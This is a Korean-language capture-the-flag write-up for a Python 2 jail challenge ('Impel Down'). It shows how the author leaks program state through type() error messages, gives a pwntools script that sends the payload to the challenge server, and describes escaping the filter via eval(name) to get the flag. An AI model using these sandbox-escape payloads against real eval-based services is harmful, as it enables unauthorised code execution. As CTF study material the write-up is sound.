






## Impel Down 114pt (Misc)



지문에는 서버 주소만 위와 같이 주었다. 연결해보자.



오, pyjail! 음,



음?

위에 보이는대로, 사용자의 코드를 위험하게 eval해서 실행해주는 듯 하다. 단 dig()/print()로 하니까 신텍스 에러가 뜨는거 보면 파이썬 2고, _ 등의 문자는 필터링해주는 듯 보였다.

에러가 뜨는 것을 이용하여 뭔가 할 수 있지 않을까? 가령,


문자열은 호출이 안된다고 되어있는데, 여기서 ‘str’을 결과값으로 해서 뽑으려고 한다. 단 38글자씩만 칠 수 있는 것 같다. 며칠 전에 메타클래스에 대해서 배웠기 때문에 아래의 구문으로 원하는 이름의 타입을 만들 수 있었다.

```python
>>> type('my name', (), {})
<class '__main__.myname'>

>>> type(`dir()`, (), {})
<class '__main__.['__builtins__', '__doc__', '__name__', '__package__']'>

>>> type(`dir()`, (), {})()
<__main__.['__builtins__', '__doc__', '__name__', '__package__'] object at 0x7ffff7e90110>

>>> type(`dir()`, (), {})()()
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: '['__builtins__', '__doc__', '__name__', '__package__']' object is not callable
```

이거다!



아주 좋다. 계속 가보자. vars()에는 값도 있다. 단 한번에 100글자씩인거같아서, 문자열을 slice해서 뽑았다.

```python
from pwn import *

context.update(log_level='error')

sock = lambda: remote('ch41l3ng3s.codegate.kr', 2014)
for i in range(0, 10000, 100):
    r = sock()

    r.sendline('1')
    r.sendline("dig()/type((repr(vars())[%d:]),(),{})" % i)
    print r.recvall().split("'str' and ")[1][1:-2]

```

출력은 정리해보면 아래와 같다.

```python
{'cmd': 'bomb', 'shuffle': <bound method Random.shuffle of <random.Random object at 0x2a20a70>>, 'watcher': <__main__.Watcher instance at 0x7fab730c4ea8>, 'invalid_cmd': 1, 'your': <__main__.Esacpe_Player instance at 0x7f1c686b8c20>, 'menu': <function menu at 0x7f1c686c8f50>, '__package__': None, 'handler': <function handler at 0x7f511eb13050>, 'Esacpe_Player': <class __main__.Esacpe_Player at 0x786413688d8>, '__doc__': None, 'works_list': {'coworker': 'Find Coworker For Escape', 'tool': 'Find Any Tool', 'dig': 'Go Deep~', 'bomb': 'make boooooooomb!!!'}, '__builtins__': <module '__builtin__' (built-in)>, '__file__': '/home/impel_down/Impel_Down.py', 'choice': <bound method Random.choice of <random.Random object at 0x25b7a70>>, 'sys': <module 'sys' (built-in)>, 'tools_list': ['drill', 'Knife', 'gun', 'spoon', 'book', 'lighter'], '__name__': '__main__', 'ban_list': ['#', '+', '-', '_', '"'], 'ww': ')', 'name': '1', 'work': 'dig()/type((repr(vars())[900:]),(),{})', 'Watcher': <class __ma...
```

오, name이 있다! eval(name)으로 하면 될 것 같다.



아주 잘 된다!



Flag: Pyth0n J@il escape 1s always fun @nd exc1ting ! :)
